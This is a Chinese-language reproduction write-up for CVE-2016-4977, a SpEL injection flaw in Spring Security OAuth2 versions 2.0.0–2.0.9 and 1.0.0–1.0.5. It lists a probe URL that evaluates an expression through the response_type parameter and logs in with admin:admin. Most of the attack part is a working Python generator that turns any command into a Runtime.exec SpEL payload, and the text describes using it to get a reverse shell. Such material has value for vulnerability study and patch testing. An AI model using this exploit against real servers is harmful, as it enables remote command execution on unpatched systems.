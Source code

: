 （CVE-2016-4977）Spring Security OAuth2 远程命令执行漏洞
========================================================

一、漏洞简介
------------

Spring Security OAuth 是为 Spring
框架提供安全认证支持的一个模块。在其使用 whitelabel views
来处理错误时，由于使用了Springs Expression Language
(SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

二、漏洞影响
------------

Spring Security OAuth 2.0.0版本至2.0.9版本Spring Security OAuth 1.0.0版本至1.0.5版本中

三、复现过程
------------

访问`http://www.0-sec.org:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

![1.png](./resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId24.png)

然后，我们使用poc.py来生成反弹shell的POC（注意：\[Java反弹shell的限制与绕过方式要在这个网站进行转码\]

    http://www.jackson-t.ca/runtime-exec-payloads.html
    CVE-2016-4977.py
    #!/usr/bin/env python

    message = input('Enter message to encode:')

    poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

    for ch in message[1:]:
       poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

    poc += ')}'

    print(poc)

![2.png](./resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId25.png)

如上图，生成了一大串SpEL语句。附带上这个SpEL语句，访问成功弹回shell：

![3.png](./resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId26.png)
